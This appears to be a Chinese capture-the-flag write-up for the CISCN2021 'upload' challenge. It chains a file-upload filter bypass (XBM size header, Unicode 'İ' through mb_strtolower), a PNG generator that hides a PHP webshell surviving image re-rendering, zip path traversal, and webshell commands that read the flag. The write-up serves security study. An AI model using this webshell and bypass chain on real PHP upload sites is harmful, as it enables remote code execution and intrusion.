

# CISCN2021-Quals_upload

源码：

```
<?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="upload") {
    if ($_FILES['postedFile']['size'] > 1024*512) {
        die("这么大个的东西你是想d我吗？");
    }
    $imageinfo = getimagesize($_FILES['postedFile']['tmp_name']);
    if ($imageinfo === FALSE) {
        die("如果不能好好传图片的话就还是不要来打扰我了");
    }
    if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1) {
        die("东西不能方方正正的话就很讨厌");
    }
    $fileName=urldecode($_FILES['postedFile']['name']);
    if(stristr($fileName,"c") || stristr($fileName,"i") || stristr($fileName,"h") || stristr($fileName,"ph")) {
        die("有些东西让你传上去的话那可不得了");
    }
    $imagePath = "image/" . mb_strtolower($fileName);
    if(move_uploaded_file($_FILES["postedFile"]["tmp_name"], $imagePath)) {
        echo "upload success, image at $imagePath";
    } else {
        die("传都没有传上去");
    }
}                                       
```

`$_FILES`会把上传的文件的各个部分保存到相应的键上，例如：第一个`[]`内就是在客户端的定位，本题是`postedFile`，也就是说本题要构造上传页面，`<input type="file" name="postedFile">`，要这样提交。

```
<input type="file" name="userfile">
$_FILES数组内容如下:
$_FILES['userfile']['name']
客户端机器文件的原名称。
$_FILES['userfile']['type'] 
文件的 MIME 类型，需要浏览器提供该信息的支持，例如“image/gif”。
$_FILES['userfile']['size'] 
已上传文件的大小，单位为字节。
$_FILES['userfile']['tmp_name'] 
文件被上传后在服务端储存的临时文件名。
$_FILES['userfile']['error'] 
和该文件上传相关的错误代码。['error'] 是在 PHP 4.2.0 版本中增加的。
注: 在 PHP 4.1.0 版本以前该数组的名称为 $HTTP_POST_FILES，它并不像 $_FILES 一样是自动全局变量。PHP 3 不支持 $HTTP_POST_FILES 数组。
```

`getimagesize`在接受任何图像文件的时候会把文件参数以数组保存。

```
Array
(
    [0] => 290	#图像宽度的像素值
    [1] => 69	#图像高度的像素值
    [2] => 3	#图像的类型
    [3] => width="290" height="69"	#宽度和高度的字符串
    [bits] => 8	#图像的每种颜色的位数，二进制格式
    [mime] => image/png	#给出的是图像的 MIME 信息，此信息可以用来在 HTTP Content-type 头信息中发送正确的信息
)

```

所以第三个if可以这样绕过

```
#define width 1
#define height 1
```

然后扫目录发现example.php

```
<?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="poc") {
    $zip = new \ZipArchive();
    $name_for_zip = "example/" . $_POST["file"];
    if(explode(".",$name_for_zip)[count(explode(".",$name_for_zip))-1]!=="zip") {#文件类型不等于zip
        die("要不咱们再看看？");
    }
    if ($zip->open($name_for_zip) !== TRUE) {
        die ("都不能解压呢");
    }

    echo "可以解压，我想想存哪里";
    $pos_for_zip = "/tmp/example/" . md5($_SERVER["REMOTE_ADDR"]);
    $zip->extractTo($pos_for_zip);#解压缩文件
    $zip->close();
    unlink($name_for_zip);
    $files = glob("$pos_for_zip/*");#寻找匹配的路径
    foreach($files as $file){
        if (is_dir($file)) {#判断给定文件名是否是一个目录
            continue;
        }
        $first = imagecreatefrompng($file);#由文件或 URL 创建一个新图象。
        $size = min(imagesx($first), imagesy($first));#找出长或宽的最小值
        $second = imagecrop($first, ['x' => 0, 'y' => 0, 'width' => $size, 'height' => $size]);#裁剪图像按指定的格式
        if ($second !== FALSE) {
            $final_name = pathinfo($file)["basename"];#返回文件路径的信息
            imagepng($second, 'example/'.$final_name);#以 PNG 格式将图像输出到浏览器或文件
            imagedestroy($second);#销毁一图像
        }
        imagedestroy($first);
        unlink($file);
    }

}

```

这个页面的功能主要就是解压缩zip格式文件，并且重新渲染png文件也就是二次渲染。

那么也就是上传一个zip文件，但在upload.php中把i过滤了

利用`mb_strtolower`解析漏洞来unicode字符代替绕过。

样例：

```
可以利用一些unicode字符绕过。
<?php
var_dump(mb_strtolower('İ')==='i');
?>
结果为true
且前面还进行了url解密。所以可以用%c4%b0代替'İ'字符

```

看到`imagecreatefrompng`就知道是二次渲染

运行这个脚本就会在当前目录自动生成一个带shell的png图片，shell是`<?=$_GET[0]($_POST[1]);`。

```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
#<?=$_GET[0]($_POST[1]);
?>

```

然后我们把生成的图片的png后缀改为php，然后压缩为zip，构造上传页面上传，下面就是一个上传页面。

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://85563469-3efd-4f10-95f4-9efac7955a50.node4.buuoj.cn:81/upload.php?ctf=upload" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="postedFile" id="postedFile"><br><!--name要根据题目的源码来调节-->
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>

```

然后我们就可以抓包，修改内容来绕过长宽限制，以及字母过滤

在文件内容下面添加长宽限制绕过

上传成功后，可以看到上传目录为`image/1.zip`

然后解压一下，它会显示可以解压且会保存，`imagepng($second, 'example/'.$final_name)`这边的final_name是我们解压后文件的名字。

```
/example.php?ctf=poc


post:
file=../image/1.zip
```

最后到/example/1.php目录下执行shell

```
/example/1.php?0=system


post:
1=ls


/example/1.php?0=system
post:
1=cat /etc/fllagggaaaa/ejklwfthreu8rt/fgrtgergyer/ergerhrtytrh/rtehtrhytryhre/gfhtryrtgrewfre34t/t43ft34f/flag11e3kerjh3u
```

----

## PNG-IDAT块嵌入马

也可以构造PNG-IDAT块嵌入马




